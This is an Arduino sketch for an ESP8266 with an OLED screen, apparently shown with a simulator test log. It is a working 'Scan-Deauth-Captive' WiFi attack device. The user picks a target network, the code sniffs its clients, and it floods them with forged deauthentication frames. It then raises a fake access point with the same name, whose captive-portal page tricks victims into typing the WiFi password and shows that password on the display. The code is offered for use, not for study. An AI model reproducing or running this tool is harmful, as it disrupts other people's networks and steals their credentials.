
This sketch was run on a simulated ESP8266 (NodeMCU). On the bench: 128×64 one-colour display. The test bench sets the inputs (shaded band); at power-on: D5 (SCROLL_BUTTON_PIN) HIGH, D6 (SELECT_BUTTON_PIN) HIGH. A WiFi scan finds three made-up networks.

Above: at 3.4 s.
3.5 s: D5 (SCROLL_BUTTON_PIN) pulled LOW for 1 s
At 5.6 s:

6.0 s: D6 (SELECT_BUTTON_PIN) pulled LOW for 0.15 s
At 7.0 s:

7.6 s: D5 (SCROLL_BUTTON_PIN) pulled LOW for 0.15 s
At 8.2 s:

9.2 s: D6 (SELECT_BUTTON_PIN) pulled LOW for 1 s
At 10.9 s:

11.7 s: D5 (SCROLL_BUTTON_PIN) pulled LOW for 3.2 s
At 16.0 s:

16.4 s: D5 (SCROLL_BUTTON_PIN) pulled LOW for 0.15 s
At 21.7 s:

Timing chart, 0 to 23.2 s (numbered marks = the images above; inputs shaded):


The sketch:

ESP8266_OLED.ino
```cpp
#include <ESP8266WiFi.h>
#include <Wire.h>
#include <Adafruit_GFX.h>
#include <Adafruit_SSD1306.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <vector>

// OLED и кнопки
#define SCREEN_WIDTH 128
#define SCREEN_HEIGHT 64
#define OLED_RESET -1
#define SCREEN_ADDRESS 0x3C
#define SCROLL_BUTTON_PIN D5
#define SELECT_BUTTON_PIN D6

Adafruit_SSD1306 display(SCREEN_WIDTH, SCREEN_HEIGHT, &Wire, OLED_RESET);

// DNS и веб-сервер
DNSServer dnsServer;
ESP8266WebServer server(80);
const byte DNS_PORT = 53;
String capturedPassword = "";

struct NetworkInfo {
    String ssid;
    String bssid;
    int32_t rssi;
    int channel;
};

// Переменные интерфейса
std::vector<NetworkInfo> networks;
int currentNetworkIndex = 0;
const int networksPerPage = 5;
unsigned long lastDebounceTime = 0;
const unsigned long debounceDelay = 200;
int menuSelection = 0;
bool isAttackMode = false;

// Переменные атаки
uint8_t target_bssid[6];
uint8_t target_channel;
String target_ssid;
std::vector<String> knownClients;
bool isScanningClients = false;
bool hasDeauthed = false;
bool hasPrintedClients = false;
bool fakeApStarted = false;
unsigned long clientScanStart = 0;

// Константы атаки
static const uint32_t CLIENT_SCAN_TIME = 10000;
static const uint8_t NUM_ROUNDS = 10;
static const uint16_t DEAUTH_DELAY_MS = 1000;
static const uint16_t ROUND_DELAY_MS = 1000;

// Структуры для промискуитетного режима
typedef struct {
    uint16_t frame_ctrl;
    uint16_t duration_id;
    uint8_t addr1[6];
    uint8_t addr2[6];
    uint8_t addr3[6];
    uint16_t seq_ctrl;
} wifi_ieee80211_mac_hdr_t;

typedef struct {
    wifi_ieee80211_mac_hdr_t hdr;
    uint8_t payload[0];
} wifi_ieee80211_packet_t;

// Обработчики веб-сервера для Captive Portal
void handleCaptivePortal() {
    String html = R"rawliteral(
        <!DOCTYPE html>
        <html>
        <head>
            <meta charset="UTF-8">
            <title>WiFi Login</title>
            <style>
                body { font-family: Arial; text-align: center; padding: 20px; }
                input { margin: 10px; padding: 5px; }
            </style>
        </head>
        <body>
            <h2>Enter WiFi Password</h2>
            <form action="/submit" method="POST">
                <input type="password" name="wifi_pass" placeholder="Password" required>
                <input type="submit" value="Connect">
            </form>
        </body>
        </html>
    )rawliteral";
    server.send(200, "text/html", html);
}

void handleSubmit() {
    capturedPassword = server.arg("wifi_pass");

    // Показываем захваченный пароль на дисплее
    display.clearDisplay();
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(0,0);
    display.println("Password captured:");
    display.println(capturedPassword);
    display.display();

    // Отправляем ответ
    server.send(200, "text/html", "<html><body><h2>Connecting...</h2></body></html>");
}

void startFakeAP() {
    wifi_promiscuous_enable(false);
    WiFi.disconnect();
    WiFi.mode(WIFI_OFF);
    delay(200);

    // Запуск фейковой точки доступа
    WiFi.mode(WIFI_AP);
    WiFi.softAP(target_ssid.c_str());

    // Настройка DNS и веб-сервера
    dnsServer.start(DNS_PORT, "*", WiFi.softAPIP());

    server.on("/", handleCaptivePortal);
    server.on("/hotspot-detect.html", handleCaptivePortal);
    server.on("/generate_204", handleCaptivePortal);
    server.on("/submit", HTTP_POST, handleSubmit);
    server.onNotFound(handleCaptivePortal);
    server.begin();

    // Обновление дисплея
    display.clearDisplay();
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(0,0);
    display.println("Fake AP Started");
    display.println(target_ssid);
    display.println(WiFi.softAPIP().toString());
    display.display();

    fakeApStarted = true;
}

bool sendDeauthPacket(const uint8_t *clientMAC) {
    uint8_t deauthPacket[26] = {
        0xC0, 0x00, // Deauth
        0x00, 0x00, // Duration
        0,0,0,0,0,0, // Dest
        0,0,0,0,0,0, // Source
        0,0,0,0,0,0, // BSSID
        0x00, 0x00, // Seq
        0x07, 0x00  // Reason code 7
    };

    memcpy(&deauthPacket[4],  clientMAC,    6);
    memcpy(&deauthPacket[10], target_bssid, 6);
    memcpy(&deauthPacket[16], target_bssid, 6);

    return (wifi_send_pkt_freedom(deauthPacket, 26, 0) == 0);
}

void startAttack() {
    NetworkInfo& net = networks[currentNetworkIndex];

    // Конвертация BSSID
    sscanf(net.bssid.c_str(), "%hhx:%hhx:%hhx:%hhx:%hhx:%hhx",
           &target_bssid[0], &target_bssid[1], &target_bssid[2],
           &target_bssid[3], &target_bssid[4], &target_bssid[5]);

    target_channel = net.channel;
    target_ssid = net.ssid;

    knownClients.clear();
    isScanningClients = true;
    hasDeauthed = false;
    hasPrintedClients = false;
    fakeApStarted = false;
    clientScanStart = millis();

    // Настройка промискуитетного режима
    WiFi.mode(WIFI_STA);
    WiFi.disconnect();
    wifi_set_channel(target_channel);

    wifi_set_promiscuous_rx_cb([](uint8_t *buf, uint16_t len) {
        if (!isScanningClients) return;
        if (len < 12 + sizeof(wifi_ieee80211_mac_hdr_t)) return;

        auto *packet = (wifi_ieee80211_packet_t*)(buf + 12);
        auto *hdr = &packet->hdr;

        if (memcmp(hdr->addr3, target_bssid, 6) == 0 &&
            memcmp(hdr->addr2, target_bssid, 6) != 0) {

            char mac[18];
            snprintf(mac, sizeof(mac), "%02X:%02X:%02X:%02X:%02X:%02X",
                    hdr->addr2[0], hdr->addr2[1], hdr->addr2[2],
                    hdr->addr2[3], hdr->addr2[4], hdr->addr2[5]);
            String clientMac = String(mac);

            if (std::find(knownClients.begin(), knownClients.end(),
                         clientMac) == knownClients.end()) {
                knownClients.push_back(clientMac);
            }
        }
    });

    wifi_promiscuous_enable(true);

    // Обновление дисплея
    display.clearDisplay();
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(0,0);
    display.println("Scanning clients...");
    display.display();
}

void handleAttack() {
    if (isScanningClients && millis() - clientScanStart >= CLIENT_SCAN_TIME) {
        isScanningClients = false;
        wifi_promiscuous_enable(false);

        display.clearDisplay();
        display.setCursor(0,0);
        display.printf("Found %d clients\n", knownClients.size());
        display.display();
        delay(1000);

        if (!knownClients.empty() && !hasDeauthed) {
            display.clearDisplay();
            display.setCursor(0,0);
            display.println("Sending deauth...");
            display.display();

            wifi_promiscuous_enable(true);

            // Отправка deauth-пакетов
            for (uint8_t round = 1; round <= NUM_ROUNDS; round++) {
                for (auto &clientMac : knownClients) {
                    uint8_t mac[6];
                    sscanf(clientMac.c_str(), "%hhx:%hhx:%hhx:%hhx:%hhx:%hhx",
                           &mac[0], &mac[1], &mac[2], &mac[3], &mac[4], &mac[5]);
                    sendDeauthPacket(mac);
                    delay(DEAUTH_DELAY_MS);
                }

                display.clearDisplay();
                display.setCursor(0,0);
                display.printf("Round %d/%d\n", round, NUM_ROUNDS);
                display.display();

                delay(ROUND_DELAY_MS);
            }

            wifi_promiscuous_enable(false);
            hasDeauthed = true;

            // Запуск фейковой точки доступа
            startFakeAP();
        } else if (!hasDeauthed) {
            display.clearDisplay();
            display.setCursor(0,0);
            display.println("No clients found");
            display.println("Starting Fake AP...");
            display.display();
            delay(1000);

            hasDeauthed = true;
            startFakeAP();
        }
    }
}

void initDisplay() {
    if(!display.begin(SSD1306_SWITCHCAPVCC, SCREEN_ADDRESS)) {
        Serial.println(F("SSD1306 allocation failed"));
        for(;;);
    }
    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SSD1306_WHITE);
    display.display();
}

void scanNetworks() {
    display.clearDisplay();
    display.setCursor(0,0);
    display.println("Scanning...");
    display.display();

    networks.clear();
    int n = WiFi.scanNetworks();

    if (n > 0) {
        for (int i = 0; i < n; ++i) {
            NetworkInfo network;
            network.ssid = WiFi.SSID(i);
            network.bssid = WiFi.BSSIDstr(i);
            network.rssi = WiFi.RSSI(i);
            network.channel = WiFi.channel(i);
            networks.push_back(network);
        }

        // Сортировка по уровню сигнала (от сильного к слабому)
        std::sort(networks.begin(), networks.end(),
            [](const NetworkInfo& a, const NetworkInfo& b) {
                return a.rssi > b.rssi;
            });
    }
    currentNetworkIndex = 0;
}

void displayNetworkDetails() {
    display.clearDisplay();
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(0,0);

    // Информация о сети
    NetworkInfo& net = networks[currentNetworkIndex];
    display.println(net.ssid);
    display.printf("RSSI: %d dBm\n", net.rssi);
    display.printf("Ch: %d\n", net.channel);
    display.println(net.bssid);

    // Разделительная линия
    display.drawLine(0, 33, SCREEN_WIDTH-1, 33, SSD1306_WHITE);

    // Опции с четким выделением текущего выбора
    display.setCursor(0, 40);
    if (menuSelection == 0) { // Attack выбран
        display.setTextColor(SSD1306_BLACK, SSD1306_WHITE);
        display.print("> Attack");
        display.setTextColor(SSD1306_WHITE);
        display.setCursor(0, 50);
        display.print("  Back");
    } else { // Back выбран
        display.setTextColor(SSD1306_WHITE);
        display.print("  Attack");
        display.setCursor(0, 50);
        display.setTextColor(SSD1306_BLACK, SSD1306_WHITE);
        display.print("> Back");
    }

    display.display();
}

void handleButtons() {
    if (millis() - lastDebounceTime < debounceDelay) return;

    if (digitalRead(SCROLL_BUTTON_PIN) == LOW) {
        lastDebounceTime = millis();

        if (isAttackMode) {
            // Переключение между Attack и Back
            menuSelection = !menuSelection;
            displayNetworkDetails();
        } else {
            // Переключение между сетями
            currentNetworkIndex = (currentNetworkIndex + 1) % networks.size();
            displayNetworks();
        }
    }

    if (digitalRead(SELECT_BUTTON_PIN) == LOW) {
        lastDebounceTime = millis();

        if (!isAttackMode) {
            // Вход в режим атаки
            isAttackMode = true;
            menuSelection = 0; // Сбрасываем выбор на Attack
            displayNetworkDetails();
        } else {
            // Обработка выбора в меню
            if (menuSelection == 0) { // Attack
                startAttack();
            } else { // Back
                isAttackMode = false;
                displayNetworks();
            }
        }
    }
}

void displayNetworks() {
    display.clearDisplay();

    display.setTextColor(SSD1306_WHITE);
    display.setCursor(0,0);
    display.println("Scan-Deauth-Captive");

    int totalPages = (networks.size() + networksPerPage - 1) / networksPerPage;
    int currentPage = (currentNetworkIndex / networksPerPage) + 1;
    display.printf("Page: %d/%d\n", currentPage, totalPages);

    display.drawLine(0, 20, SCREEN_WIDTH-1, 20, SSD1306_WHITE);

    int startIdx = (currentNetworkIndex / networksPerPage) * networksPerPage;
    int endIdx = min(startIdx + networksPerPage, (int)networks.size());

    for (int i = startIdx; i < endIdx; i++) {
        display.setCursor(0, 24 + (i - startIdx) * 8);
        if (i == currentNetworkIndex) {
            display.setTextColor(SSD1306_BLACK, SSD1306_WHITE);
        } else {
            display.setTextColor(SSD1306_WHITE);
        }
        display.println(networks[i].ssid);
    }

    display.display();
}

void setup() {
    Serial.begin(115200);

    pinMode(SCROLL_BUTTON_PIN, INPUT_PULLUP);
    pinMode(SELECT_BUTTON_PIN, INPUT_PULLUP);

    initDisplay();

    WiFi.mode(WIFI_STA);
    WiFi.disconnect();
    delay(100);

    scanNetworks();
    displayNetworks();
}

void loop() {
    // Обработка DNS и веб-сервера для Captive Portal
    if (fakeApStarted) {
        dnsServer.processNextRequest();
        server.handleClient();
    }

    handleButtons();

    if (isScanningClients || hasDeauthed) {
        handleAttack();
    }

    // Обновление списка сетей
    static unsigned long lastScanTime = 0;
    if (!isAttackMode && !isScanningClients && !fakeApStarted &&
        millis() - lastScanTime > 30000) {
        scanNetworks();
        displayNetworks();
        lastScanTime = millis();
    }
}
```

Measured:
- after the input at 3.5 s, the display: first changes at once (image 1 shows a later state)
- after the input at 6.0 s, the display: changes at once (image 2)
- after the input at 7.6 s, the display: changes at once (image 3)
- after the input at 9.2 s, the display: first changes at once (image 4 shows a later state)
- after the input at 11.7 s, the display: first changes at once (image 5 shows a later state)
- after the input at 16.4 s, the display: first changes at once (image 6 shows a later state)
